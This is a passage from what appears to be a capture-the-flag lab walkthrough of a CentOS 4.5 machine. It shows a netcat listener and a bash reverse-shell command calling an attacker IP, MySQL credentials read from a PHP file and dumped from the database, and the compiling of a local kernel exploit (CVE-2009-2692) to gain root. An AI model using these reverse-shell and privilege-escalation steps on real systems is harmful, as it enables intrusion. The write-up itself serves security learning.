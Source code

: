  ```js
 1. nc -lvnp 4242
 2. &bash -i >& /dev/tcp/192.168.14.129/4242 0>&1
 ```
   ![image](https://user-images.githubusercontent.com/85706972/186991150-dd98ffc4-37b3-4d17-a64a-de596dc896fb.png)

 ### Privilege Escalation
   
 <li> We can inspect both vulnerable .php files and the index.php contains login information of mysql database
   
   ![image](https://user-images.githubusercontent.com/85706972/186991477-5f0b7e5e-84d1-4f07-b9ab-ca0f128ed67d.png)

 ```js
  username > john
  password > hiroshima
 ```
 <li> We can now login into MySQL and query rest of the credentials
   
```js
 mysql -u john -h localhost -p
```
<li> Now that we are in we can query the databases and tables
 
  ![image](https://user-images.githubusercontent.com/85706972/186992076-a9a20475-cb48-48cc-a9e3-f17c8492eda9.png)

 ```js
  admin > 5afac8d85f 
  john >  66lajGGbla
 ```
<li>Password seemed to be encrypted and couldn't crack them, had idea to change them but that did not changed anything as we only change that in DB
<li> Doing basic enumeration of Linux box, found that:
 
 <ol>
   <li>Kernel version - 2.6.9-55.EL</li>
   <li>OS Information:</li>
</ol> 
 
```js
LSB Version:    :core-3.0-ia32:core-3.0-noarch:graphics-3.0-ia32:graphics-3.0-noarch
Distributor ID: CentOS
Description:    CentOS release 4.5 (Final)
Release:        4.5
Codename:       Final
```

<li>Using searchspoit we found that box is vulnerable to local privilege escalation exploit <a href="https://subinsb.com/default-device-ttl-values/](https://www.exploit-db.com/exploits/9545">CVE-2009-2692</a>
 
 ```js
searchsploit -m linux/local/9545.c
#transfer exploit over to box
gcc -o exploit 9545.c
 ```
  
![image](https://user-images.githubusercontent.com/85706972/186993487-c647618b-82f8-456d-a5e1-9026322ec90a.png)

<li> And we are root
 
  
 
